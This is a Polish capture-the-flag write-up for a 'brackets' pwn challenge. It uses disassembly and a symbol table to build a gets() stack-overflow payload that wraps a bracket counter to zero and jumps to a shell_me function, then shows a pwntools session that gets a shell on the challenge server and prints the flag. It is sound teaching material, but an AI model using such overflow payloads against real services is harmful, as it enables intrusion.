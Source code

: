# Nawias się musi zgadzać (pwn)
## Pts: 150

```
W ramach programu Nowoczesne Państwo uruchomiliśmy w klastrze cyberbezpieczeństwa usługę pozwalającą sprawdzić czy wyrażenie jest poprawnie onawiasowane. Sprawdź czy Twoje wyrażenia są poprawnie onawiasowane, i nie próbuj się włamywać, bo i tak Ci się to nie uda!

Program jest do pobrania stąd.

nc pwning2016.p4.team 1337

Format flagi: pwn{litery_cyfry_i_znaki_specjalne}
```
Dostajemy zapakowaną binarkę `brackets`

```
$ file brackets
brackets: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1a898791e079253916e3678874d6f13bd0054743, not stripped
```

Szybkie testowe uruchomienie:
```
$ ./brackets
Enter expression to check:
((()))))))))
Missing opening bracket!
```

Jak widać zachowuje się tak, jak się spodziewaliśmy. Szybkie wrzucenie w IDA pokazuje dość prosty schemat najbardziej interesującej funkcji:
![overview](img/graph%20overview.png)

```assembly
public check_my_brackets
check_my_brackets proc near

var_80= byte ptr -80h
var_10= qword ptr -10h
var_4= dword ptr -4

push    rbp
mov     rbp, rsp
add     rsp, 0FFFFFFFFFFFFFF80h
mov     [rbp+var_4], 0
lea     rax, [rbp+var_80]
mov     rdi, rax
mov     eax, 0
call    _gets
lea     rax, [rbp+var_80]
mov     [rbp+var_10], rax
jmp     short loc_40069F
```

Natychmiastowo uwagę przykuwa użycie niebezpiecznej funkcji `gets`. Można się spodziewać że mamy doprowadzić do przepełnienia bufora i nadpisania adresu powrotu. Jeżeli chodzi o cel przekierowania wykonania, to twórcy zostawili nam miły prezent w postaci funkcji `shell_me` która spawnuje nam shella. Sprawdźmy więc adresy obecnej i docelowej funkcji.

```
$ readelf -s brackets

Symbol table '.symtab' contains 72 entries:
   Num:    Value          Size Type    Bind   Vis      Ndx Name
...
    48: 0000000000400638   143 FUNC    GLOBAL DEFAULT   14 check_my_brackets
...
    54: 00000000004005f6    66 FUNC    GLOBAL DEFAULT   14 shell_me

```

Widać że są dość blisko siebie a co lepsze nie posiadają bajtów zerowych we fragmencie który musimy nadpisać (little-endian!).

Chcielibyśmy już teraz nadpisać adres powrotu ale dalsza analiza pokazuje że to nie zadziała. Zwróćmy uwagę na to w jaki sposób kończy się nasza funkcja.

![exits](img/exits.png)

Tylko poprawne zakończenie algorytmu prowadzi do powrotu, w przeciwnym razie uruchamiany jest `exit` więc podmiana adresu nic nie da. Problemem jest 32-bitowa zmienna `var_4` która reprezentuje bilans nawiasów otwierających i zamykających. Żeby algorytm stwierdził że nawiasowanie jest poprawne to w szczególności na końcu musi ona wynosić 0. Nie możemy po prostu wkleić bajtów zerowych w payload bo `gets` tego nie wczyta. Trik polega na tym że oprócz nadpisania surowej wartości bilans możemy jeszcze potem zmodyfikować podając nawiasy. Plan jest prosty - ustawmy bilans na `INT_MAX` i podajmy jeden nawias, żeby przekręcił się na 0.

Payload będzie miał następujący schemat
```
'(' + FF * ??? + F60540 + '\n'
```

Znak zmiany linii zostanie zamieniony na bajt zerowy, więc adres będzie się zgadzał.


Bufor jest pod adresem `rbp-128`, po drodze jest jeszcze stare `rbp` (8 bajtów) więc potrzebujemy paddingu na 136 bajty, po tym już jest adres powrotu. Zatem ostateczny payload wygląda następująco:
```
b'(' + b'\ff'*135 + '\xf6\x05\x40'
```

Enter możemy sami wcisnąć.
Teraz czas przetestować na zdalnym serwerze.

```python
>>> from pwn import *
>>> conn = remote("pwning2016.p4.team", 1337)
>>> conn.send("(\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xf6\x05\x40")
>>> conn.interactive()
[*] Switching to interactive mode
Enter expression to check:
(^E@
whoami
brackets
ls
brackets  brackets.c  exploit.py  flag
cat flag
pwn{b1n4ry_expl01t1ng}
```

